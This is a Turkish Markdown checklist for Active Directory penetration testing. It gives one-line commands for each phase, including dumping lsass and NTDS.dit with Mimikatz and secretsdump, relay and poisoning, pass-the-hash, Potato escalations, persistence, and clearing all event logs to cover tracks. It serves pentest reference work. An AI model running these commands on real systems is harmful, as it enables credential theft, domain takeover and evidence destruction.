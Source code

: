 # Active Directory Pentest Checklist

## ✅ Credential Gathering
- [ ] Kullanıcı adlarını ve parolaları topla.
  - **Komut**: `rpcclient -U "" [DC-IP]`
- [ ] DC'deki misafir oturumlarını kontrol et.
  - **Komut**: `net use \\[DC-IP] /user:guest`
- [ ] LAPS (Local Administrator Password Solution) parolalarını kontrol et.
  - **Komut**: `powershell -command "Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd"`
- [ ] Ntlmrelayx ile kimlik bilgilerini yakalamayı dene.
  - **Komut**: `python3 ntlmrelayx.py -smb2support`
- [ ] SAM dosyasını ele geçir ve analiz et.
  - **Komut**: `reg save hklm\sam sam.save`
- [ ] Cached Credentials için lsass belleğini analiz et.
  - **Komut**: `procdump.exe -ma lsass.exe`
- [ ] NTDS.dit dosyasını çıkar ve hashleri dump et.
  - **Komut**: `secretsdump.py -just-dc [user]:[password]@[IP]`
- [ ] Mimikatz kullanarak kimlik bilgilerini çıkar.
  - **Komut**: `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit`
- [ ] Windows Credential Manager'dan kimlik bilgilerini topla.
  - **Komut**: `cmdkey /list`
- [ ] Group Policy Preferences (GPP) şifrelerini keşfet.
  - **Komut**: `findstr /S /I /C:"password" \\\[domain]\SYSVOL`
- [ ] Responder veya Inveigh ile kimlik bilgisi toplamayı dene.
  - **Komut**: `responder -I [network_interface]`
  - **PowerShell Komut**: `Invoke-Inveigh`
- [ ] Certify kullanarak Active Directory Certificate Services (ADCS) yapılandırmasını analiz et.
  - **Komut**: `Certify.exe find`
- [ ] LAPSToolkit ile LAPS yapılandırmasını keşfet.
  - **Komut**: `Get-LAPSComputers`
- [ ] KeeTheft ile Windows Credential Manager şifrelerini topla.
  - **Komut**: `KeeTheft.exe dump`
- [ ] SafetyKatz veya BetterSafetyKatz ile bellekten kimlik bilgisi dump et.
  - **Komut**: `SafetyKatz.exe sekurlsa::logonpasswords`
- [ ] KrbRelay veya KrbRelayUp kullanarak Kerberos relay saldırısını dene.
  - **Komut**: `KrbRelay.exe -dc-ip [DC-IP]`
- [ ] GMSAPasswordReader ile gMSA şifrelerini çıkar.
  - **Komut**: `GMSAPasswordReader.exe`

## ✅ Enumeration
- [ ] Domain kullanıcılarını listele.
  - **Komut**: `Get-ADUser -Filter *`
- [ ] Domain gruplarını kontrol et.
  - **Komut**: `Get-ADGroup -Filter *`
- [ ] Domain Controller (DC) yapılandırmasını kontrol et.
  - **Komut**: `nltest /dclist:domainname`
- [ ] LDAP bağlantılarını kontrol et.
  - **Komut**: `ldapsearch -x -H ldap://[DC-IP] -b "DC=domain,DC=com"`
- [ ] GPO (Group Policy Objects) ayarlarını incele.
  - **Komut**: `gpresult /h report.html`
- [ ] Forest ve Domain Trust ilişkilerini analiz et.
  - **Komut**: `Get-ADTrust -Filter *`
- [ ] Domain Policy bilgilerini kontrol et.
  - **Komut**: `Get-DomainPolicy`
- [ ] Açık paylaşımları (Shares) listele.
  - **Komut**: `net view \\[IP]`
- [ ] Kerberos SPN'leri listele.
  - **Komut**: `GetUserSPNs.py -request -dc-ip [DC-IP] [domain/user]`
- [ ] SharpHound ile AD ortamını analiz et.
  - **Komut**: `SharpHound.exe -c All`
- [ ] ADRecon ile detaylı raporlama yap.
  - **Komut**: `ADRecon.ps1`
- [ ] PowerView kullanarak AD bilgilerini incele.
  - **Komut**: `Get-NetUser`, `Get-NetGroup`, `Get-NetComputer`
- [ ] bloodyAD ile AD yapılandırmasını analiz et.
  - **Komut**: `bloodyAD -u [user] -p [password] -d [domain]`
- [ ] SharpView ile AD nesnelerini detaylı analiz et.
  - **Komut**: `SharpView.exe`
- [ ] ADFSDump kullanarak ADFS yapılandırmasını analiz et.
  - **Komut**: `ADFSDump.exe`

## ✅ Lateral Movement
- [ ] Uzak masaüstü protokolü (RDP) üzerinden bağlantı.
  - **Komut**: `mstsc /v:[IP]`
- [ ] Pass-The-Hash saldırıları için NTLM hashlerini kullan.
  - **Komut**: `impacket-psexec [user]:[hash]@[IP]`
- [ ] PrintSpoofer ile yetki yükseltme yap.
  - **Komut**: `PrintSpoofer.exe -i`
- [ ] JuicyPotato veya GodPotato kullanarak hak yükseltme yap.
  - **Komut**: `JuicyPotato.exe -t *`
- [ ] PetitPotam saldırısını gerçekleştir.
  - **Komut**: `PetitPotam.py -d [domain] -u [user] -p [password]`
- [ ] SharpMove ile lateral movement gerçekleştirin.
  - **Komut**: `SharpMove.exe -d [domain] -u [user] -p [password]`
- [ ] RestrictedAdmin modunda RDP ile bağlantı.
  - **Komut**: `mstsc /restrictedadmin /v:[IP]`
- [ ] SharpRDP ile RDP saldırılarını test edin.
  - **Komut**: `SharpRDP.exe -target [IP] -u [user] -p [password]`
- [ ] NetworkServiceExploit ile ağ hizmetlerini hedef alarak lateral movement gerçekleştirin.
  - **Komut**: `NetworkServiceExploit.exe`

## ✅ Privilege Escalation
- [ ] Kerberoasting saldırılarını test et.
  - **Komut**: `GetUserSPNs.py -request -dc-ip [DC-IP] [domain/user]`
- [ ] Certify ile ADCS zafiyetlerini test et.
  - **Komut**: `Certify.exe request /ca:[CA Name]`
- [ ] Rubeus kullanarak Kerberos bileti oluştur.
  - **Komut**: `Rubeus.exe asktgt /user:[user] /rc4:[hash]`
- [ ] NoPac saldırısını test et.
  - **Komut**: `python3 noPac.py -dc-ip [DC-IP]`
- [ ] Powermad ile ACL düzenlemesi yaparak hak yükseltme yap.
  - **Komut**: `New-MachineAccount`
- [ ] SharpKatz ile bellekten hashleri dump et.
  - **Komut**: `SharpKatz.exe sekurlsa::logonpasswords`
- [ ] RunasCs ile yüksek haklara sahip bir kullanıcı olarak işlem başlat.
  - **Komut**: `RunasCs.exe -u [user] -p [password] -d [domain]`
- [ ] SharpUp ile yanlış yapılandırmaları kontrol ederek hak yükseltme yap.
  - **Komut**: `SharpUp.exe`
- [ ] Whisker ile Shadow Credentials oluştur ve kullan.
  - **Komut**: `Whisker.exe create /target:[user]`
- [ ] PassTheCert ile sertifika bazlı saldırılar gerçekleştir.
  - **Komut**: `PassTheCert.exe`

## ✅ Persistence
- [ ] AdminSDHolder özelliklerini kontrol et.
  - **Komut**: `Get-ADObject -Filter {name -eq "AdminSDHolder"}`
- [ ] Scheduled Task oluşturarak kalıcılık sağla.
  - **Komut**: `schtasks /create /tn [taskname] /tr [command] /sc onlogon`
- [ ] Skeleton Key yükleyerek DC'yi manipüle et.
  - **Komut**: `mimikatz "privilege::debug sekurlsa::logonpasswords"`
- [ ] Acl-Backdoor kullanarak kalıcı erişim sağla.
  - **Komut**: `Set-DomainObjectAcl`
- [ ] Shadow Credentials ile kalıcılık sağla.
  - **Komut**: `Whisker.exe create /target:[user]`
- [ ] Powermad ile yeni makine hesapları oluştur ve kontrolü ele geçir.
  - **Komut**: `New-MachineAccount`
- [ ] SharpChrome ile tarayıcı şifrelerini al ve kalıcılık sağla.
  - **Komut**: `SharpChrome.exe`

## ✅ Additional Checks
- [ ] ADCS (Active Directory Certificate Services) yapılandırmasını analiz et.
  - **Komut**: `certutil -dump`
- [ ] DNS Zone Transfer'ı kontrol et.
  - **Komut**: `dig @<DNS-Server> <domain> axfr`
- [ ] SMB Signing'in devre dışı olup olmadığını kontrol et.
  - **Komut**: `smbclient -L //[IP] -N`
- [ ] LLMNR ve NBT-NS zehirlenmesine karşı savunmasızlığı kontrol et.
  - **Komut**: `responder -I [network_interface] -w`
- [ ] MS17-010 (EternalBlue) zafiyetini test et.
  - **Komut**: `nmap -p445 --script smb-vuln-ms17-010 [IP]`
- [ ] PowerUp ile yanlış yapılandırmaları test et.
  - **Komut**: `PowerUp.ps1`
- [ ] Seatbelt ile endpoint konfigürasyonlarını incele.
  - **Komut**: `Seatbelt.exe all`

## ✅ Cleanup
- [ ] Kullanılan araç ve scriptleri sistemden temizle.
  - **Komut**: `del /q /f [scriptname]`
- [ ] Event Logs üzerinde iz bırakmamak için log temizle.
  - **Komut**: `Clear-EventLog -LogName *`
- [ ] Kullanıcı izlerini silmek için temporay dosyaları temizle.
  - **Komut**: `del /q /f %temp%\*`

Bu liste, Active Directory pentest işlemleri sırasında tüm aşamalarda kapsamlı bir rehber sunar. Her bölümde belirtilen araç ve komut
